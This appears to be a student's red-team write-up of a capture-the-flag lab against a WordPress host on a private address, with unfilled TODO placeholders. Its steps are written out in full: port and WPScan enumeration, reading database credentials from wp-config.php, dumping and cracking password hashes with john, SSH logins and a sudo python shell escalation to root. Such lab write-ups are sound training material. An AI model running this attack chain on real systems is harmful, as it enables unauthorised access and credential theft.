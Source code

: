 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
  # nmap -sV 192.168.1.110
```

![nmap output](Images/nmap.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp: SSH
  - Port 80/tcp: HTTP
  - Port 111/tcp: RPCbind
  - Port 139/tcp: netbios-ssn
  - Port 445/tcp: netbios-ssn

The following vulnerabilities were identified on each target:
- Target 1
  - User Enumeration (WordPress site)
  - Weak User Password
  - Unsalted User Password Hash (WordPress database)
  - Misconfiguration of User Privileges/Privilege Escalation

_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: _TODO: Insert `flag1.txt` b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - Enumerated WordPress site Users with WPScan
      - _TODO: Include the command run_

```bash
  # wpscan --url 192.168.1.110/wordpress --enumerate u
```
![wpscan output](Images/wpscan1.png)
![wpscan output](Images/wpscan2.png)

  - Use SSH to gain a user shell
    - ssh michael@192.168.1.110

![ssh output](Images/ssh1.png)

    - cat var/www/html/service.html

![flag 1](Images/flag1.png)


  - `flag2.txt`: _TODO: Insert `flag2.txt` fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - _TODO: Identify the exploit used_
      - _TODO: Include the command run_

    - cat var/www/flag2.txt

![flag 2](Images/flag2.png)

  - `flag3.txt`: _TODO: Insert `flag3.txt` afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - _TODO: Identify the exploit used_
      - _TODO: Include the command run_

  - Find the MySQL database password
    - cd /var/www/html/wordpress/
    - nano wp-config.php

![MySQL DB password](Images/MySQL.png)

  - Use the credentials to log into MySQL and dump WordPress user password hashes.
    - Flag 3 found in wp_posts

![flag 3](Images/flag3.png)

    - Password hashes found in wp_users

![password hashes](Images/pwdhashes.png)

  - `flag4.txt`: _TODO: Insert `flag4.txt` 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - _TODO: Identify the exploit used_
      - _TODO: Include the command run_

  - Crack password hashes with john.
    - Copied steven's password hash from MySQL and pasted into ~/Desktop/hash.txt
    - cd ~/Desktop
    - john hash.txt
    - Discovered Steven’s password is “pink84”

![john output](Images/john.png)

  - Secure a user shell as the user whose password you cracked.
    - ssh steven@192.168.1.110

![ssh output](Images/ssh2.png)

  - Escalate to root
    - sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
    - cd /root/

![ssh output](Images/flag4.png)
